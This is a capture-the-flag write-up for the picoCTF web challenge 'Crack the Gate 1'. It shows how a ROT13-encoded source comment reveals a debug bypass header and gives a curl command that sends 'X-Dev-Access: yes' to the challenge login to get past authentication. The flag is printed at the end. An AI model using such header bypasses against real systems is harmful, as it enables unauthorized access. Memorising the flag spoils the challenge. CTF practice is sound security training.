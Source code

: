 # Crack the Gate 1
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

## Challenge information
```
Tags: Web Exploitation, picoMini by CMU-Africa, browser_webshell_solvable
  
Description:  
We’re in the middle of an investigation.  
One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal.  
We’ve uncovered the email address he uses to log in: ctf-player@picoctf.org.  
Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked.  
But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?
  
Hints:  
1. Developers sometimes leave notes in the code; but not always in plain text.
2. A common trick is to rotate each letter by 13 positions in the alphabet.  
```
## Overview
When entering the website, a login page appears  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/48daae86-9317-4867-b187-33f8962fc500" />  
  
The website has provided us with an email and our job is to log in with this email  
Email: ctf-player@picoctf.org  
  
`Ctr+U` to view the page source, we see that the developer left a comment that should probably be deleted  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/52d04548-5330-476e-811c-ca97fef00ecb" />  

## Solution
**B1:** Decode  
`ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf` => This is a piece of code encoded with rot13  
After coding, this is the collected data: `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`   
**B2:** Exploit  
You can use burpsuite to capture requests and send them or you can use Curl to send requests.  
In this case, I use Curl  
`curl -X POST http://amiable-citadel.picoctf.net:YourPost/login -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"123"}'`  

## Flag 
`picoCTF{brut4_f0rc4_cbb8faa7}`



